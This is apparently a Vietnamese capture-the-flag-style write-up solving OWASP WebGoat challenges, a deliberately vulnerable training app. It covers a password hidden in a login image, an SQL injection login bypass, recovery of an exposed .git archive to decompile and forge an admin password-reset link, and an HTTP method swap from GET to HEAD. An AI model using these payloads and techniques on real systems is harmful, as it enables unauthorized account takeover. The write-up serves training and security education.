









# Challenges

## Admin lost password

Mình thử `strings` tấm hình ở ngay phần login thì tìm được pass và 1 chuỗi base64 của pass fake.





pass:

```
!!webgoat_admin_0232!!
```

## Without password

Đây là bài sqli cơ bản, mình chỉ cần `'or'1'='1` là xong.



## Admin password reset

Ban đầu mình gửi email đến WebWolf và nhận được link, tuy nhiên không phải là link admin:




Thử `.git` thì mình tìm được 1 file nén:



Giải nén ra thì đây là file `.git`

```console
$ mv .git git.zip
$ unzip git.zip
$ ls .git
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  info  logs  objects  refs
```

Mình tiếp tục check log và reset về commit đầu tiên:

```console
$ git log
commit 2e29cacb85ce5066b8d011bb9769b666812b2fd9 (HEAD -> master)
Author: Nanne Baars <nanne.baars@owasp.org>
Date:   Thu Aug 17 06:41:32 2017 +0200

    Updated copyright to 2017

commit ac937c7aab89e042ca32efeb00d4ca08a95b50d6
Author: Nanne Baars <nanne.baars@owasp.org>
Date:   Thu Aug 17 06:41:09 2017 +0200

    Removed hardcoded key

commit f94008f801fceb8833a30fe56a8b26976347edcf
Author: Nanne Baars <nanne.baars@owasp.org>
Date:   Thu Aug 17 06:40:04 2017 +0200

    First version of WebGoat Cloud website
$ git reset --hard f94008f801fceb8833a30fe56a8b26976347edcf
HEAD is now at f94008f First version of WebGoat Cloud website
$ ls
Challenge_7.adoc   Challenge7.html   git.zip  'MD5$1.class'  'MD5$MD5State.class'   MD5.class   PasswordResetLink.class
```

Ở đây có 1 file là `PasswordResetLink.class` nên mình dùng `jd-gui` để decode:



Sau khi đọc qua source thì file này nhận vào 1 param là `username` sau đó tạo link reset password, mình nhập `admin` vào và tạo được link:

```console
$ java PasswordResetLink admin
Generation password reset link for admin
Created password reset link: 375afe1104f4a487a73823c50a9292a2
```

Dùng link này để reset password là xong.



## Without account

Ở đây mình đổi từ `GET` method sang `HEAD` là xong.

